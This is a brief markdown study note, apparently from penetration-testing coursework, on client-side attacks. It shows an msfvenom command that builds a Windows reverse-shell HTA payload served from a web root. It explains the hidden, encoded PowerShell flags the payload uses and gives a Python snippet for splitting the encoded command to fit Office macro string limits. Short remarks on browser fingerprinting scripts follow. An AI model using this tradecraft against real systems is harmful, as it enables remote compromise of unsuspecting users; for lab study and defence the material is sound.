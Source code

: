 # Client Side Attacks

Generate and serve a client side attack that can be accessed from a browser on the target using HTML applications.  
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.240 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta`  

Looking at evil.hta:
* -nop, is shorthand for -NoProfile,1 which instructs PowerShell not to load the PowerShell user profile. When PowerShell is started, it will, by default, load any existing user's profile scripts, which might negatively impact the execution of our code. This option will avoid that potential issue.
* -w hidden (shorthand for -WindowStyle2 hidden) to avoid creating a window on the user's desktop.
* -e flag (shorthand for -EncodedCommand) allows us to supply a Base64 encoded PowerShell script directly as a command line argument.

Split a base64 script with Python:
```python
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

Useful for macros which have a string literal max length of 255, unless it is stored in a variable.

### While using the fingerprint scripts I had to modify the scripts to get them to run

Use the older version as per the study materials:
https://github.com/LukasDrgon/fingerprintjs2

As the new one is vastly different:
https://github.com/fingerprintjs/fingerprintjs

See fingerprint2server.html for changes implemented to the script used in training course.

